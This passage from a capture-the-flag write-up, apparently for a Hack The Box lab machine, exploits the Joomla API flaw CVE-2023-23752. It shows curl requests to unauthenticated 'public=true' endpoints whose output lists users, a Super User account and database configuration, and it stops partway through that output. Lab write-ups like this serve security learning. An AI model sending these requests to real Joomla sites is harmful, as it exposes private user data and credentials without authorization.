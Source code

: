 This Joomla version is vulnerable to [CVE-2023-23752](https://www.exploit-db.com/exploits/51334). According to the exploit, we can query `"#{root_url}/api/index.php/v1/users?public=true"` for the users and `"#{root_url}/api/index.php/v1/config/application?public=true"` for the users config.

```bash
$ curl "http://dev.devvortex.htb/api/index.php/v1/users?public=true" | jq .
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/users?public=true"
  },
  "data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
		...
        "group_names": "Super Users"
      }
    },
    {
      "type": "users",
      "id": "650",
      "attributes": {
        "id": 650,
        "name": "logan paul",
        "username": "logan",
        "email": "logan@devvortex.htb",
		...
        "group_names": "Registered"
      }
    }
  ],
  "meta": {
    "total-pages": 1
  }
}
```

There are 2 users: `lewis` and `logan`.

```bash
$ curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq .
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
  ...
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "dbtype": "mysqli",
        "id": 224
      }
    },
    {
```